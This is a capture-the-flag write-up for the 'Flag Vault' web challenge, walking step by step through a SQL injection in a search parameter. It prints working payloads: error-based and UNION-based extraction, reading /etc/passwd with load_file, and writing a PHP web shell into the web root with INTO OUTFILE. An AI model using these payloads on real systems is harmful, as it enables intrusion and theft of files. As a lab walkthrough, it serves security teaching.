




# WEB //   🔐 Flag Vault

Our Flag Storage as a Service is finally launched! We know there was a little delay, but our new investor wanted us to go through a security review. But we are now 100% secure and no hacker will ever steal our client's flags.

https://flag-vault-5a37f69100fc.1753ctf.com/

# Writeup

The text on the page talks about `sql injection in search`, pressing the hashtags adds `?search=tag` to the query. Then it talks about having data in `/var/www/html/backups` and dumps data there. It also shows a lot of disabled PHP functions which led us to believe that we were supposed to execute PHP code. Now the task was just to figure out how?

I tried a lot of possible injections and found out that `'` threw an error. After a bit of testing I concluded that the query looked something like this:

```sql
SELECT * FROM table WHERE something LIKE '%<string>%' ORDER BY id DESC;
```

I could manipulate the `<string>` portion and after a bit of googling I found [this](https://portswigger.net/web-security/sql-injection/cheat-sheet) website showing I could extract data via errors. 

```sql
'  AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT "TEST")))#
```

And bingo


I used this to extract a bunch of data but not quite what I wanted,

`'  AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT user FROM user LIMIT 6,1)))#` gave `root`
`'  AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT schema_name FROM information_schema.schemata LIMIT 2,1)))` shows a `test` database

Then after a while I find this [page](https://portswigger.net/web-security/sql-injection/union-attacks) showing how to use UNION to extract data. 

`' UNION SELECT 'Data','hehe',user() #` gives a PHP error:

```
Fatal error: Uncaught DateMalformedStringException: Failed to parse time string (hehe) at position 0 (h): The timezone could not be found in the database in /var/www/html/index.php:23 Stack trace: #0 /var/www/html/index.php(23): DateTime->__construct('hehe') #1 /var/www/html/index.php(44): print_changelog() #2 {main} thrown in /var/www/html/index.php on line 23
```  

So I'm guessing we have `id`, `date`, `message`. So I started crafting a query and found this working recipe:

```sql
' UNION SELECT null,'04-01-2099',<INSERT QUERY HERE> #
```

That quickly gave me `LFI` with `load_file('/etc/passwd')` as a query:



But I do not know what file to get? I now figured out that MySQL could write files using: 

```sql
' UNION SELECT null,'04-01-2099', '<?php show_source($_GET["file"]); ?>' into outfile '/var/www/html/kaospilot1.php' #
```

Using this I had a `LFI` PHP File. 



But since I now can write custom PHP scripts I can make a script to find all directories. Unfortunally most of the functions from PHP is blocked but Google shows me 

```php
<?php $t = new RecursiveDirectoryIterator("/var/www/html");foreach(new RecursiveIteratorIterator($t) as $file =>$key) { echo $file."<br/>"; } ?>
```

Now I find all the files and directories in `/var/www/html` and find a file in `/var/www/html/backups` called `flags_1677599396982.txt` and I can read it using `load_file('/var/www/html/backups/flag.txt')` or the PHP LFI i created earlier on.




